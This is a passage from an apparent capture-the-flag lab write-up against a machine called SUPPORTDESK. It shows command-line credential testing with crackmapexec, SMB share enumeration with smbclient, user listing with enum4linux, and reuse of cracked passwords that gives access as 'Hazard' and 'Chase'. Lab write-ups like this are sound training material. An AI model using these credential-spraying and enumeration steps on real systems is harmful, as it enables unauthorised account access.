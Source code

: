 We can try the passwords we cracked and attempt to use those and find that the credentials `Hazard:stealth1agent` are valid:
```
% crackmapexec smb 10.10.10.149 -u "Hazard" -p "stealth1agent"
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent
```

We have access to smb but can't access any shares apart from the IPC share:
```
% smbclient -U "Hazard" -L \\\\$IP\\
Enter WORKGROUP\Hazard's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.

do_connect: Connection to 10.10.10.149 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
% smbclient -U "Hazard" \\\\$IP\\C$
Enter WORKGROUP\Hazard's password:
tree connect failed: NT_STATUS_ACCESS_DENIED
[1] % smbclient -U "Hazard" \\\\$IP\\ADMIN$
Enter WORKGROUP\Hazard's password:
tree connect failed: NT_STATUS_ACCESS_DENIED
```

We run enum4linux and identify a number of users:
```
% cat logs/enum4linux.log | grep SUPPORT
S-1-5-21-4254423774-1266059056-3197185112-500 SUPPORTDESK\Administrator (Local User)
S-1-5-21-4254423774-1266059056-3197185112-501 SUPPORTDESK\Guest (Local User)
S-1-5-21-4254423774-1266059056-3197185112-503 SUPPORTDESK\DefaultAccount (Local User)
S-1-5-21-4254423774-1266059056-3197185112-504 SUPPORTDESK\WDAGUtilityAccount (Local User)
S-1-5-21-4254423774-1266059056-3197185112-513 SUPPORTDESK\None (Domain Group)
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (Local User)
S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (Local User)
S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (Local User)
S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (Local User)
```

We try to login to those accounts using the password we cracked previously and find that one of the passwords works for the Chase user: 
```
% crackmapexec smb 10.10.10.149 -u "Chase" -p "Q4)sJu\Y8qz*A3?d"
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d
```
